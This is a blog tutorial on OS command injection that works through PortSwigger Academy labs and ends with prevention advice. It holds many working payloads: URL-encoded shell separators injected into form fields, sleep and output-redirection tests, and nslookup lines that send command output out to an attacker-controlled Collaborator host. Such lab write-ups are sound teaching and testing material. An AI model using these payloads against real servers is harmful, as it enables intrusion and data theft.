


In the fourth post regarding web application security, we will be diving into OS command injection or shell injection attacks. We will be covering what command injection is, what different types of command injection attacks exist and how to prevent command injection vulnerabilities within your own web applications. While analyzing the topic, we will be going through several easy and more advanced labs, which are available for free at [PortSwigger academy](https://portswigger.net/web-security/os-command-injection).

## What is Command Injection?
Command injection or shell injection is a vulnerability which allows attackers to execute arbitrary operating system commands on the server that is hosting the vulnerable web application. By doing so, an attacker may leak sensitive data, or even take full control over the target server and use this server as a stepping stone to pivot further into the internal network. 

Often times, legacy applications leverage underlying scripts to communicate with back end systems to query and send information. Command injection vulnerabilities arise when unsanitized user input can be specified as parameters for these scripts. Let's take a look at an example. The following web applicatoins contains an OS command injection vulnerability in the product stock checker. The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response. Let's see how to exploit this vulnerability.

When we use the "check stock" button within the web application, a POST request is sent to /product/stock with productId and StoreId as parameters.

``` HTTP
POST /product/stock HTTP/1.1
Host: ac101ff41ffad0ebc014355400c6008f.web-security-academy.net
Cookie: session=AgfbEkUTQpSZDJAp2yobWHi1eoHxB3tr
[...]
Content-Type: application/x-www-form-urlencoded
[...]

productId=1&storeId=1
```

These parameters can be controlled by the user. The way to achieve command injection is to insert a shell command separator between the input to the script that we are calling and the OS command that we want to execute. If we would want to execute a regular OS payload, this would not work. Let's try.

```HTTP
POST /product/stock HTTP/1.1
Host: ac101ff41ffad0ebc014355400c6008f.web-security-academy.net
Cookie: session=AgfbEkUTQpSZDJAp2yobWHi1eoHxB3tr
[...]

productId=1&storeId=1 & whoami &
```

Which only returns the actual stock like so.

```HTTP
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Connection: close
Content-Length: 3

62
```

The reason that the injection above does not work, is because the server is expecting a URL encoded form. We can see this in the POST header. If we URL encode the payload like so

```HTTP
POST /product/stock HTTP/1.1
Host: ac101ff41ffad0ebc014355400c6008f.web-security-academy.net
Cookie: session=AgfbEkUTQpSZDJAp2yobWHi1eoHxB3tr
[...]
Content-Type: application/x-www-form-urlencoded
[...]

productId=1&storeId=1+%26+whoami+%26
```

We get a response with the output of the whoami command back.

```HTTP
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Connection: close
Content-Length: 16

peter-HPJaNK
62
```

In the backend, the following command is being executed. Some sort of script is called to query the available stock through the execution of an OS command, but we are telling the application to not just run the script, but also execute an additional OS command.

```bash
somescript.py 1 1 & whoami &
```

The product ID and store ID are set to 1, after which the & shell command separator is used to execute an additional shell command. This allows us to see the result of the command back in the response of the web application. We add a trailing & character in order to ensure that our payload does not infer with possible other commands that are executed. 

Useful commands to execute in order to figure out whether we have command injection are the following.

|Purpose of Command|Linux|Windows|
|---|---|---|
|Name of current user | whoami | whoami|
|Operating system | uname -a | ver |
| Network configuration | ifconfig or ip a | ipconfig /all| 
| Network connections | netstat -tulpn | netstat -an |
| Running processes | ps -aux| tasklist |

Additionally, we can use these commands to create a reverse connection back to the attacker machine, allowing us to take over the server. 

We just used the & shell command separator, however there are several other separators that can be useful in specific situations. A few separators that are useful for both Windows and Linux servers are the following.

- &
- &&
- |
- ||

For Unix-based operating systems we have several more options, such as.

- ;
- \\n or 0x0a
- \`injected_command\`
- $(injected_command)

When commands are executed between quotation marks, it might be the case that we first need to break out of the quotation marks before we can execute our payloads. In these instances, we have to make use of the " and ' characters to see what syntax we are dealing with. 

## Blind OS Command Injection Methods
Now that we have a general understanding of the command injection attack, we can take a look at some more advanced examples. In the last example the output of the command was printed to the screen. Often times, this is not the case. When this is not the case we speak of blind OS command injection. Due to this reason we need other methods to figure out whether or not our payload succeeded. This section describes several of the methods that are useful for blind OS command injection. 

### Time Delays
One way of figuring out whether or not your command injection payload worked, is by leveraging the sleep command. The sleep command allows you to let the server wait an X amount of time before executing the next instruction, thus allowing us to find the command injection vulnerability if it takes longer than an X amount of time before the server handles our request. 

Let's take a look at the following example. The web application contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. When we supply feedback to a product, the following POST request is sent to the server.

```HTTP
POST /feedback/submit HTTP/1.1
Host: ac671f621f8941e6c06e04ab00e6007b.web-security-academy.net
[...]

csrf=Go1I7HcKufiodcSJY7WaJ91wSZO1TE33&name=test&email=test@test.nl&subject=test&message=test
```

In the body of the request we can see that we, the user, can manipulate the name, email, subject and message of the feedback request. Our job is to find out which parameter is vulnerable, and make the server sleep for 10 seconds. To do this, we write the following payload

```bash
& sleep 10 &
```

Which we URL-encode, because the server is again expecting a URL encoded request.

```text
%26+sleep+10%26
```

And inject into the POST request.

```HTTP
POST /feedback/submit HTTP/1.1
Host: ac671f621f8941e6c06e04ab00e6007b.web-security-academy.net
Cookie: session=v1Fg39BCexTonWMoz7kj0cEVZkFyjrmd
[...]

csrf=Go1I7HcKufiodcSJY7WaJ91wSZO1TE33&name=test%26+sleep+10%26&email=test%26+sleep+10%26&subject=test%26+sleep+10%26&message=test%26+sleep+10%26
```

After which we manage to make the server sleep for 10 seconds. We now know that the application is vulnerable, but likely only in 1 field, because the response only took 10 seconds, not 40. 

We can remove the payloads one by one, to figure out which parameter is vulnerable. After a few tries we can figure out that the email parameter is vulnerable, and the other parameters are not. 

```HTTP
POST /feedback/submit HTTP/1.1
Host: ac671f621f8941e6c06e04ab00e6007b.web-security-academy.net
Cookie: session=v1Fg39BCexTonWMoz7kj0cEVZkFyjrmd
[...]
Content-Type: application/x-www-form-urlencoded
[...]

csrf=Go1I7HcKufiodcSJY7WaJ91wSZO1TE33&name=test&email=test%26+sleep+10%26&subject=test&message=test
```

We can now leverage this command injection to gain access to the server or exfiltrate data. 

### Output Redirection
Another method that we can use to find out whether or not we have command injection onto a server is output redirection. To perform a succesful output redirection command injection, we need to have write access to a file within the web root that we can access from the web application. We can then send the output of the command that we ran to a file, and browse to this file via the web browser. Let's take a look at an example.

The following web application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, for practicing purposes, we have a writeable folder located at

```text
/var/www/images/
```

We are dealing with the same feedback function again.

```HTTP
POST /feedback/submit HTTP/1.1
Host: acae1ff01e209d2cc082b16000af003a.web-security-academy.net
[...]

csrf=hwXyvlltzavc7jyufWadYjIomopqskls&name=test&email=test%40test.nl&subject=test&message=test
```

Let's write out our possible payloads.

```bash
& whoami > /var/www/images/whoami.txt &
&& whoami > /var/www/images/whoami.txt &&
| whoami > /var/www/images/whoami.txt
|| whoami > /var/www/images/whoami.txt
```

Let's use the URL encoded versions of these payloads and inject them into all of our parameters. 

```HTTP
POST /feedback/submit HTTP/1.1
Host: acae1ff01e209d2cc082b16000af003a.web-security-academy.net
[...]

csrf=hwXyvlltzavc7jyufWadYjIomopqskls&name=test%26%2bwhoami%2b>%2b/var/www/images/whoami.txt%2b%26&email=test%26%2bwhoami%2b>%2b/var/www/images/whoami.txt%2b%26&subject=test%26%2bwhoami%2b>%2b/var/www/images/whoami.txt%2b%26&message=test%26%2bwhoami%2b>%2b/var/www/images/whoami.txt%2b%26
```

We get a 500 Internal Server Error.

```HTTP
HTTP/1.1 500 Internal Server Error
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 16

"Could not save"
```

If we send the same payload to all parameters, besides the email parameter, we do not get this error.

```HTTP
POST /feedback/submit HTTP/1.1
Host: acae1ff01e209d2cc082b16000af003a.web-security-academy.net
[...]

csrf=hwXyvlltzavc7jyufWadYjIomopqskls&name=test%26%2bwhoami%2b>%2b/var/www/images/whoami.txt%2b%26&email=test&subject=test%26%2bwhoami%2b>%2b/var/www/images/whoami.txt%2b%26&message=test%26%2bwhoami%2b>%2b/var/www/images/whoami.txt%2b%26
```

The server responds with 200 OK.

```HTTP
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 2

{}
```

This indicates that the email parameter is again our vulnerable parameter. Now we need to figure out the right syntax. When using the single &, double && and single | we get an error. When using the double || we do not. 

```HTTP
POST /feedback/submit HTTP/1.1
Host: acae1ff01e209d2cc082b16000af003a.web-security-academy.net
[...]

csrf=hwXyvlltzavc7jyufWadYjIomopqskls&name=test&email=test||+whoami+>+/var/www/images/whoami.txt+||&subject=test&message=test
```

At which the server respond with.

```HTTP
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 2

{}
```

Now our job is to find the whoami.txt. When looking at the standard GET requests that the server sends when loading images, we can see that the following request is sent out. 

```HTTP
GET /image?filename=33.jpg HTTP/1.1
Host: acae1ff01e209d2cc082b16000af003a.web-security-academy.net
[...]
```

When we supply whoami.txt instead of 33.jpg

```HTTP
GET /image?filename=whoami.txt HTTP/1.1
Host: acae1ff01e209d2cc082b16000af003a.web-security-academy.net
[...]
```

The server shows us the output of the whoami command in its response.

```HTTP
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Connection: close
Content-Length: 13

peter-TbUSX4
```

Indicating that we managed to run the whoami command, save it to a file and retrieve it.

### Out-of-bound Interaction
We can also try to make the server execute a DNS request to one of the servers that we control. If we see the DNS request coming in, we know that our command injection worked. Often times DNS is allowed through the firewall, as there are many services out there that require DNS connectivity to work. Let's take a look at an example of how to do this. 

The application contains a blind OS command injection vulnerability in the feedback function. It executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. Additionally, we do not have access to a folder which we can redirect our output to.

To quickly test an OAST (out-of-band application security testing) technique, we can leverage the BurpSuite Collaborator. This tool is available with the BurpSuite Professional license, and allows us to spin up a DNS server that we can use to see whether our attack worked or not. To do this, we have to navigate to Burp --> Collaborator Client and copy the URL. Let's write down the most common payloads.

```text
& nslookup 389cauqzojam3s3l8xr7dqqgt7zxnm.oastify.com &
&& nslookup 389cauqzojam3s3l8xr7dqqgt7zxnm.oastify.com &&
| nslookup 389cauqzojam3s3l8xr7dqqgt7zxnm.oastify.com |
|| nslookup 389cauqzojam3s3l8xr7dqqgt7zxnm.oastify.com ||
```

We are dealing with a similar feedback functionality again. Let's take a look at the request.

```HTTP
POST /feedback/submit HTTP/1.1
Host: acd21fd31e936a50c03f097a00a600db.web-security-academy.net
[...]

csrf=vBwjgvK0W6yk5QblVGz8hXQ9etVotTvH&name=test&email=test%40test.nl&subject=test&message=test
```

Let's URL encode the first payload, and add it to the email parameter.

```HTTP
POST /feedback/submit HTTP/1.1
Host: acd21fd31e936a50c03f097a00a600db.web-security-academy.net
[...]

csrf=vBwjgvK0W6yk5QblVGz8hXQ9etVotTvH&name=test&email=test%26+nslookup+389cauqzojam3s3l8xr7dqqgt7zxnm.oastify.com+%26&subject=test&message=test
```

After which the server responds with.

```HTTP
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 2

{}
```

And we see a DNS request popping up in the collaborator client.

<p>
	
</p>

Indicating that we managed to exploit the command injection vulnerability.

### Out-of-bound Data Exfiltration
We can weaponize the previous attack vector to exfiltrate sensitive data via the out-of-bound channel. We can do this by specifying a command within virtual host section like so.

```bash
& nslookup `whoami`.389cauqzojam3s3l8xr7dqqgt7zxnm.oastify.com &
```

The command above would output the results of the whoami command in the request.

```text
wwwuser.389cauqzojam3s3l8xr7dqqgt7zxnm.oastify.com
```

Let's leverage this technique to send a request to our own controlled domain, and read the output. We will be exploiting the same vulnerable feedback function again.

```HTTP
POST /feedback/submit HTTP/1.1
Host: acbf1f041f761041c0f00d49000d00f5.web-security-academy.net
[...]

csrf=1fPgyRJ6xPq4geoV0B5RxeCiEUeaPE15&name=test&email=test%40test.nl&subject=test&message=test
```

We add our payload to the POST request.

```HTTP
POST /feedback/submit HTTP/1.1
Host: acbf1f041f761041c0f00d49000d00f5.web-security-academy.net
[...]

csrf=1fPgyRJ6xPq4geoV0B5RxeCiEUeaPE15&name=test&email=test%26+nslookup+`whoami`389cauqzojam3s3l8xr7dqqgt7zxnm.oastify.com+%26&subject=test&message=test
```

And we manage to exfiltrate the output of the whoami command.

<p>
	
</p>

We can see that the server responded with "peter-QefuHp389cauqzojam3s3l8xr7dqqgt7zxnm.oastify.com", indicating that the output of the whoami command is "peter-QefuHp". 

## How to Prevent Command Injection Vulnerabilities
The easiest way to prevent command injection vulnerabilities is to **never** call out to OS commands from application layer code. There are always alternatives to this method. 

If for some reason this would not be possible, there are several other methods to reduce the chance of being vulnerable to this type of attack.

1. Don't run system commands with user supplied input.
2. Use strong input validation for input passed into commands. This includes white listing and validating that the input only contains numbers, alphanumeric characters and no other syntax or whitespace.
3. Implement a web application firewall to block command injection payloads and block incoming / outcoming connections. 

Two other methods are useful to minimize the impact a possible command injection vulnerability has on your server.

1. Use the principal of least privilege, ensuring that an attacker that manages to compromise your system has limited privileges.
2. Ensure that your applications are patched and up-to-date.

Implementing all of the above, in conjunction with the usage of modern web development frameworks and basic development principles should very much minimize the risk of falling victim to a command injection vulnerability. 